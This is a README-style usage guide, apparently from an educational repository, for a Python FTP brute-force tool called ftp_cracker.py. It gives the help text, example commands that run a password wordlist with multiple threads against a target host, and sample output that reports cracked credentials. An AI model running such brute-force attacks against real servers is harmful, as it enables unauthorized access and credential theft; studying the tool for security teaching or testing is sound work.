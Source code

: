 To run this:
- `pip3 install -r requirements.txt`
- Use `ftp_cracker.py` for fast brute force:
    ```
    python ftp_cracker.py --help
    ```
    **Output:**
    ```
    usage: ftp_cracker.py [-h] [-u USER] [-p PASSLIST] [-t THREADS] host

    FTP Cracker made with Python

    positional arguments:
    host                  The target host or IP address of the FTP server

    optional arguments:
    -h, --help            show this help message and exit
    -u USER, --user USER  The username of target FTP server
    -p PASSLIST, --passlist PASSLIST
                            The path of the pass list
    -t THREADS, --threads THREADS
                            Number of workers to spawn for logining, default is 30
    ```
- If you want to use the wordlist `wordlist.txt` in the current directory against the host `192.168.1.2` (can be domain or private/public IP address) with the user `user`:
    ```
    python ftp_cracker.py 192.168.1.2 -u user -p wordlist.txt
    ```
- You can also tweak the number of threads to spawn (can be faster, default is 30):
    ```
    python ftp_cracker.py 192.168.1.2 -u user -p wordlist.txt --threads 35
    ```
- Output can be something like this:
    ```
    [!] Trying 123456
    [!] Trying 12345
    ...
    [!] Trying sweety
    [!] Trying joseph
    [+] Found credentials:
            Host: 192.168.1.113
            User: test
            Password: abc123
    ```